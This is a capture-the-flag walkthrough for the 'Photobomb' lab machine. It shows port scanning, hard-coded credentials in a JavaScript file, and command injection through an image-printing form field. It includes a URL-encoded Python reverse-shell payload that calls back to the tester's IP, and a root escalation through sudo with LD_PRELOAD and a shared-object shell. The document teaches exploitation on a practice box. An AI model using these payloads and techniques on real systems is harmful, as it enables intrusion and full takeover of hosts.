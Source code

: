 # Photobomb Machine

## Enumerate Ports and Services

`$ nmap -Pn 10.10.11.182`

Output:

PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http


Looks like HTTP is enabled, let's see what the headers look like:
`$ curl -I 10.10.11.182`

Output:
HTTP/1.1 302 Moved Temporarily
Server: nginx/1.18.0 (Ubuntu)
Date: Thu, 08 Dec 2022 12:55:14 GMT
Content-Type: text/html
Content-Length: 154
Connection: keep-alive
Location: http://photobomb.htb/


In `Location`, we see that `10.10.11.182` resolves to `https://photobomb.htb/`

We need to update our /etc/hosts with this info

```
127.0.0.1       localhost
127.0.1.1       alaric
10.10.11.182    photobomb.htb

# The following lines are desirable for IPv6 capable hosts
::1     localhost ip6-localhost ip6-loopback
ff02::1 ip6-allnodes
ff02::2 ip6-allrouters
```

And then navigate in our browser to `photobomb.htb`

---

### Traversing the webpage

When viewing source, and checking out linked files, we find some goodies in `photobomb.js`:

```
function init() {
  // Jameson: pre-populate creds for tech support as they keep forgetting them and emailing me
  if (document.cookie.match(/^(.*;)?\s*isPhotoBombTechSupport\s*=\s*[^;]+(.*)?$/)) {
    document.getElementsByClassName('creds')[0].setAttribute('href','http://pH0t0:b0Mb!@photobomb.htb/printer');
  }
}
window.onload = init;
```

Basically, if it finds a cookie with the value `isPhotoBombTechSupport`, it'll pre-populate creds for us (which it seems are hard-coded).

So, we got some creds!
`http://pH0t0:b0Mb!@photobomb.htb/printer`

We are not able to SSH into the host using these creds, sadly.

Gobuster doesn't return anything juicy
`gobuster -u photobomb.htb -w /usr/share/wordlists/dirb/big.txt`


### Webpage interactions

If there isn't anything interesting left on the static side, let's look at the dynamic side.
- What interactions can we perform with the web app?

On `photobomb.htb/printer` we can do an HTTP request to pull an image

We can intercept the request and see it like so:
```
POST /printer HTTP/1.1
Host: photobomb.htb
Content-Length: 78
Cache-Control: max-age=0
Authorization: Basic cEgwdDA6YjBNYiE=
Upgrade-Insecure-Requests: 1
Origin: http://photobomb.htb
Content-Type: application/x-www-form-urlencoded
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/107.0.5304.107 Safari/537.36
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9
Referer: http://photobomb.htb/printer
Accept-Encoding: gzip, deflate
Accept-Language: en-US,en;q=0.9
Connection: close

photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000
```

We have a payload of: 
`photo`
`filetype`
`dimensions`

Can we perform injection on one of the vars?
- We'll need to have the injection URL-encoded

---

Let's see if we can inject `curl+10.10.14.37`

This is the original data for the POST request:
`photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg&dimensions=3000x2000`

First, we set up our `netcat listener`:
```
└─$ nc -lvnp 80  
listening on [any] 80 ...
```

Injected with the `curl` request, we submit:
`photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg;curl+10.10.14.37&dimensions=3000x2000`

And on our listener, we get our response:
```
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.182] 52558
GET / HTTP/1.1
Host: 10.10.14.37
User-Agent: curl/7.68.0
Accept: */*
```

Great! So our proof-of-concept works! 

Let's extend this with a reverse shell
```
python3 -c 'import sys,socket,os,pty; s=socket.socket(); s.connect(("10.10.14.37", 9001)); [os.dup2(s.fileno(),fd) for fd in (0,1,2)]; pty.spawn("sh")'
```

> we start a socket, connect to the remote host, duplicate the main file descriptors, spawn a shell

So we spin up a `netcat` instance:
```
└─$ nc -nvlp 9001
listening on [any] 9001 ...
```

This is the data injected with the reverse shell (url-encoded):
`photo=voicu-apostol-MWER49YaD-M-unsplash.jpg&filetype=jpg%3bexport+RHOST%3d"10.10.14.37"%3bexport+RPORT%3d9001%3bpython3+-c+'import+sys,socket,os,pty%3bs%3dsocket.socket()%3bs.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))%3b[os.dup2(s.fileno(),fd)+for+fd+in+(0,1,2)]%3bpty.spawn("sh")'&dimensions=3000x2000`

And we get a shell!
```
connect to [10.10.14.37] from (UNKNOWN) [10.10.11.182] 40608
$
```

We run `cd` to go to the home directory, and then `ls` to view contents
```
$ cd
$ ls
exploit  find  hint.txt  linpeas.sh  photobomb  shell.c  shell.so  user.txt
$ cat user.txt
c9ce062d205e474d2a43207c2d0a8ca5
```

And now we have the user flag!

---

## Privilege Escalation

The first thing we always want to do once we've gotten a foothold with a user account is understand the scope of our permissions.

We do so by running:
`sudo -l`

The following is returned:
```
$ sudo -l
Matching Defaults entries for wizard on photobomb:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User wizard may run the following commands on photobomb:
    (root) SETENV: NOPASSWD: /opt/cleanup.sh
$ 
```

We can see that our user can run `sudo` and keep environment variables

Looking at some of the files, we see a ref to `LD_PRELOAD` in `shell.c`:
```
$ cat shell.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
#include <unistd.h>
void _init() {
        unsetenv("LD_PRELOAD");
        setgid(0);
        setuid(0);
        system("/bin/sh");
}
$ 
```

We also see a generated `shell.so` file
- We can reasonably infer that this `.so` file was generated from the `shell.c` file
    - This would have been done via:
        - `gcc -fPIC -shared -o shell.so shell.c -nostartfiles` 
        - We try `gcc` in the shell, and see it is not in PATH
        - So we can reasonably conclude that the `.so` file is the result of a prior `gcc` operation

We can see in `sudo -l` that the one file which we can run as `root` is `/opt/cleanup.sh`
- Typically, this escalation is leveraged like so:
    - `sudo LD_PRELOAD=<shared_object_file> <root_permission_file>`

So, we'll run something like
    - `sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh`

When we run the above, we get: 
```
$ sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh
sudo LD_PRELOAD=/home/wizard/shell.so /opt/cleanup.sh
# 
```

We look like we have root:
```
# cat /root/root.txt
cat /root/root.txt
8885e03e6df5a63e43888b28f7eddf97
#
```

And we now have the flag!
